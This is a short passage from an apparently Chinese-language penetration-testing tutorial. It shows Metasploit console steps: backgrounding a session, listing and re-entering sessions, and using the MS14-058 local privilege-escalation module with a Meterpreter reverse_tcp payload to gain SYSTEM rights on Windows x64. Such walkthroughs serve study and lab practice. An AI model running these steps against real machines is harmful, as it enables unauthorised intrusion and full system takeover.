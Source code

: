 ![Alt text](../../cyber_security/images/image47.png)
- 下面进行提权，将当前会话隐藏到后台，进入msfconsole
```
background
```
- 后续可以利用sessions命令对后台会话进行查看和进入
```
sessions -l  查看后台会话

sessions -i <会话编号>  进入指定会话
```

- 使用windows/local/ms14_058_track_popup_menu 进行提权
```
use windows/local/ms14_058_track_popup_menu
options

set session 1

set target windows x64

set payload windows/x64/meterpreter/reverse_tcp

exploit

成功拿到系统权限
```